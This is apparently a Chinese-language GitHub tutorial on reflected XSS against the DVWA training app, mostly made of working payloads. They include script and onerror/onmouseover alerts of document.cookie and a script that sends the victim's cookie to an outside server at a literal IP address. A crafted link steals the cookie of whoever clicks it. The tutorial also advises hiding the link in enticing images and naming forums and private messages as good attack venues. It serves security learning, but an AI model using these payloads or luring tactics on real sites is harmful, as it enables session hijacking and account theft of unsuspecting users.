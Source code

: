 ## 反射型XSS漏洞
### 1、登陆DVWA，设置LOW的安全界别
![image](https://github.com/498946975/Security/blob/master/images/xss_1.png)
### 2、执行js代码的2种方式
```yaml
1、使用<srpipt>js代码</script>标签
    <script>alert(1)</script>
2、使用事件的方式执行js代码
```
### 3、使用image的onerror的事件，执行js代码
```yaml
img标签支持onerror 事件，在装载文档或图像的过程中如果发生了错误，就会触发onerror事件。
```
#### 获取当前站点的cookie
```shell script
<img src=## onerror=alert(document.cookie)>
```
![image](https://github.com/498946975/Security/blob/master/images/xss_2.png)
### 4、a标签，实行js代码
#### 鼠标移动到这的时候，才执行代码
```shell script
<a onmouseover=alert(document.cookie)>xxs link</a>
```
![image](https://github.com/498946975/Security/blob/master/images/xss_3.png)

### 5、DOM的xss反射
#### 1、反弹cookie
```shell script
<script>var img=document.createElement("img");img.src=alert(document.cookie); </script>
```
```yaml
代码解析：
    1、定义一个img变量
    2、这个变量就是html里面的标签，因为是document.XXX
    3、img变量的值是alert（document.cookie）
```
### 6、发送当前cookie到某个服务器
```yaml
1、必须登陆才能访问cookie
2、一般情况下，从web服务的日志中查看cookie
3、把cookie弹出来，访问这个http链接，上传到服务器日志
```
#### 用法就是
```shell script
<script> var img=document.createElement("img");img.src="http://81.70.88.52/a?"+escape(document.cookie); </script>
```
#### 登陆81.70.88.52查看日志
![image](https://github.com/498946975/Security/blob/master/images/xss_15.png)
#### 以下链接，谁点，就发送谁172.16.120.252:8080的cookie到 http://81.70.88.52/b?
```shell script
http://172.16.120.252:8080/vulnerabilities/xss_r/?name=<script> var img=document.createElement("img");img.src="http://81.70.88.52/b?"+escape(document.cookie); </script>
```
#### 诱导性图片，嵌入以上链接，更容易得手。
### 7、常用攻击场景
```yaml
论坛，留言，站内信，利用成功率更高。
```
